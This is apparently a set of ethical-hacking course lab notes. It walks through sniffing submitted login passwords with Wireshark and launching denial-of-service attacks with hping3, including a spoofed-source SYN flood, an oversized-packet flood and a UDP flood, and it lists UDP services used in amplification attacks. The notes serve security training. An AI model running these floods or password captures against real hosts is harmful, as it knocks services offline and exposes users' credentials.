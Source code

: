 **Lab2-Task1: Password Sniffing using Wireshark** (Page 563)

- **Attacker**
  - Wireshark
- **Target**
  - [www.moviescope.com](http://www.moviescope.com/)
  - Login
- **Attacker**
  - Stop capture
  - File->Save as
  - Filter: **http.request.method==POST**
  - Edit->Find Packet-> Find string equals to pwd form field

## Module 10: Denial-of-Service

### Lab1-Task2: Perform a DoS Attack on a Target Host using hping3 (Page 119)

- **Target:**
  - Wireshark->Ethernet
- **Attacker**
  - **hping3 -S [Target IP] -a [Spoofable IP] -p 22 -flood**
    - **-S: Set the SYN flag**
    - **-a: Spoof the IP address**
    - **-p: Specify the destination port**
    - **--flood: Send a huge number of packets**
- **Target**
  - Check Wireshark
- **Attacker (Perform PoD)**
  - **hping3 -d 65538 -S -p 21 –flood [Target IP]**
    - **-d: Specify data size**
    - **-S: Set the SYN flag**
- **Attacker (Perform UDP application layer flood attack)**
  - nmap -p 139 10.10.10.19 (check service)
  - **hping3 -2 -p 139 –flood [IP]**
    - **-2: Specify UDP mode**
- **Other UDP-based applications and their ports**
  - CharGen UDP Port 19
  - SNMPv2 UDP Port 161
  - QOTD UDP Port 17
  - RPC UDP Port 135
  - SSDP UDP Port 1900
  - CLDAP UDP Port 389
  - TFTP UDP Port 69
  - NetBIOS UDP Port 137,138,139
  - NTP UDP Port 123
  - Quake Network Protocol UDP Port 26000
  - VoIP UDP Port 5060

## Module 11: Session Hijacking
